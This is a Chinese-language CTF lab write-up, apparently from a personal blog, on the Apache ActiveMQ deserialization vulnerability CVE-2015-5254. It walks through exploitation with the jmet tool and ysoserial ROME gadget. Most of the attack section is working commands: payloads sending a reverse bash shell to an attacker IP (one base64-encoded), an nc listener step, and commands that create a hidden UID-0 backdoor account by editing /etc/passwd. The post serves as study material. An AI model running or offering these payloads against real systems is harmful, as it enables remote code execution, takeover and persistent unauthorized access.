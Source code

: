 ```yaml
---
title: CVE-2015-5254
date: 2020-09-22 21:40:51
tags : [CTF,CVE，未完全解决]
categories: [CTF,CVE]
---
```


# <ActiveMQ 反序列化漏洞>(待完全理解)

## 漏洞成因

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

<!--morer-->

## 漏洞利用

漏洞利用过程如下：

1. 构造（可以使用ysoserial）可执行命令的序列化对象
2. 作为一个消息，发送给目标61616端口
3. 访问web管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/matthiaskaiser/jmet)进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

payload

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

然后登陆页面

http://127.0.0.1:8161/admin/browse.jsp?JMSDestination=event

点击消息，触发漏洞

然后进入docker

```
docker exec -it   9a540c50a8dc  /bin/bash
```

如果在/tmp目录下存在success文件则显示成功

### 反弹shell

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -i >& /dev/tcp/ip/12340>&1" -Yp ROME 127.0.0.1   61616
```

外面用nc监听1234端口

注意把攻击的命令进行base64编码，绕过java本身的限制

payload

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjE5Mi83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.43.192 61616
```



## 添加用户

```
useradd -g root -s /bin/bash -u 10010 test
```

```
sed -i "s/test:x:10010/test:x:0/g" /etc/passwd
```

```
echo "test:sd123456" | chpasswd
```

到这里就可以完全创建一个具有root权限的用户，稍后进行远程登陆就可以了。

## jmet的使用

```
$ java -jar target/jmet-0.1.0-all.jar
ERROR d.c.j.JMET [main] Misconfiguration: Missing required options: [-C Custom script exploitation mode, -Y Deser exploitation mode, -X XXE exploitation mode], [-T topic name, -Q queue name], I
usage: jmet [host] [port]
 -C,--Custom <scriptname>         Custom script exploitation mode
 -f,--filter <scriptname>         filter script
 -I,--impl <arg>                  ActiveMQ| Artemis| WebSphereMQ| Qpid10|
                                  Qpid09| HornetQ| SwiftMQ| RabbitMQ|
                                  OpenMQ
 -pw,--password <pass>            password for authentication
 -Q,--Queue <name>                queue name
 -s,--substitute                  Substituation mode: Use §§ to pass
                                  ysoserial payload name to CMD
 -T,--Topic <name>                topic name
 -u,--user <id>                   user for authentication
 -v,--verbose                     Running verbose mode
 -X,--XXE <URL>                   XXE exploitation mode
 -Xp,--xxepayload <payloadname>   Optional: XXE Payload to use EXTERNAL|
                                  PARAMATER| DTD
 -Y,--ysoserial <CMD>             Deser exploitation mode
 -Yp,--payload <payloadname>      Optional: Ysoserial Payload to use
                                  BeanShell1| CommonsBeanutils1|
                                  CommonsCollections1|
                                  CommonsCollections2|
                                  CommonsCollections3|
                                  CommonsCollections4|
                                  CommonsCollections5| Groovy1|
                                  Hibernate1| Hibernate2| Jdk7u21| JSON1|
                                  ROME| Spring1| Spring2
 -Zc,--channel <channel>          channel name (only WebSphereMQ)
 -Zq,--queuemanager <name>        queue manager name (only WebSphereMQ)
 -Zv,--vhost <name>               vhost name (only AMQP-Brokers:
                                  RabbitMQ|QPid09|QPid10)
```

其中的深层次的原理等待java+web学完之后回来补